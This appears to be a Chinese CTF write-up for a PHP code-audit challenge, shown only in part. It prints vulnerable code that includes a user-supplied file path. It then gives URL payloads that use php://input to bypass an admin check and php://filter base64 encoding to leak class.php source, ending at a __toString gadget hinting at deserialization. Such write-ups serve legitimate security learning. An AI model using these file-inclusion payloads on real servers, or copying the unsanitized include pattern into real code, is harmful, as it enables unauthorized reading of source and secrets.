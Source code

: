

### The user admin

```shell
$user = $_GET["user"];
$file = $_GET["file"];
$pass = $_GET["pass"];

if(isset($user)&&(file_get_contents($user,'r')==="the user is admin")){
    echo "hello admin!<br>";
    include($file); //class.php
}else{
    echo "you are not admin ! ";
}
```

这道题涉及到PHP的代码审计，PHP的伪协议，PHP的序列化，PHP魔术方法，涨了不少姿势，

趁着写 Writeup 把思路再梳理一下。[参考博客1](https://blog.csdn.net/csu_vc/article/details/78375203)  [参考博客2](https://blog.csdn.net/yh1013024906/article/details/81087939) 

乍一看，玄机只可能在 class.php 里面，现在就是寻找满足 if 的这个条件。

```php
file_get_contents(path,include_path,context,start,max_length)
// 把整个文件读入一个字符串中，后四个参数都是可选项
```

问题变为，怎么读取 $user 之后得到 "the user is admin"。

这里涉及到一个 PHP伪协议，`php://input`，可读取没有处理过的 POST 数据。[详细讲解](<https://blog.csdn.net/qq_27682041/article/details/73326435>)  [大佬讲解](https://www.leavesongs.com/PENETRATION/php-filter-magic.html)

```shell
http://120.78.187.100:8081/?user=php://input
# 再 post 一个 "the user is admin"
# 此时可以发现界面变成了 "hello admin!"
http://120.78.187.100:8081/?user=php://input&file=class.php
# 然后还是没卵用？？
```

再来了一个 PHP伪协议，`php://filter`，可用来读取base64编码后的源代码。

```shell
?user=php://input&file=php://filter/read=convert.base64-encode/resource=class.php
```

解码之后，得到 class.php 的源代码

```php
<?php
	class Read{//f1a9.php
		public $file;
		public function __toString(){
			if(isset($this->file)){
				echo file_get_contents($this->file);    
			}
			return "__toString was called!";
		}
	}
?>
// 注意到有个 __tostring()，这个方法可以理解为将这个类作为字符串执行时会自动执行的一个函数
```
